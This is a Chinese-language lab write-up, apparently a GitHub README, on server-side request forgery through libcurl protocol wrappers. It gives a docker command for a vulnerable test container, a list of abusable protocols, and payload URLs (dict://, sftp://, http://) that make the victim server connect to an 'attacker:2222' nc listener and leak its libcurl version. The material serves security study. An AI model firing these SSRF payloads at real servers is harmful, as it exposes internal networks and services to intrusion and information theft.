 ## SSRF libcurl protocol wrappers

参数url没有做限制，可以访问内网地址。请求过程中使用到了liburl库，并且liburl配置不当，可以让攻击者使用除http(s)之外的多个libcurl protocol wrappers，比如ftp://xxx.com/file会让服务器发起ftp请求

参考：

[SSRF libcurl protocol wrappers利用分析][1]

[HITCON CTF 2015 Quals Web 出題心得 0x04 400 lalala (2 隊解)][2]

## docker run 

```
sudo docker run --name ssrf_curl -p 8084:80 janes/ssrf_curl
```

测试加载图片：

```
http://victim:8084/ssrf_curl.php?url=http://download.easyicon.net/png/1199986/96/
```

在另外一台机器上开 nc监听

```
nc -lvp 2222

http://victim:8084/ssrf.php?url=http://attacker:2222/
```

## 可利用的协议

文章中指出可利用的协议

```
SSH (scp://, sftp://)
POP3
IMAP
SMTP
FTP
DICT
GOPHER
TFTP
```

libcurl 支持的协议：

```
$ curl -V

Protocols:
dict file ftp ftps gopher http 
https imap imaps ldap ldaps pop3 
pop3s rtmp rtsp scp sftp smb 
smbs smtp smtps telnet tftp  
```

注：

libcurl 中的 gopher 只能接受 0x00 - 0xff



## 信息泄漏

* dict 

```
http://victim:8084/ssrf.php?url=dict://attacker:2222/
```

nc 端：

```
CLIENT libcurl 7.35.0

QUIT
```

* sftp(需要curl编译安装libssh库)

```
http://victim:8084/ssrf_curl.php?url=sftp://attacker:2222/
```

## 利用GOPHER协议伪造发送邮件

参见 [SSRF libcurl protocol wrappers利用分析]

[1]: http://drops.wooyun.org/papers/13948
[2]: http://drops.wooyun.org/web/9845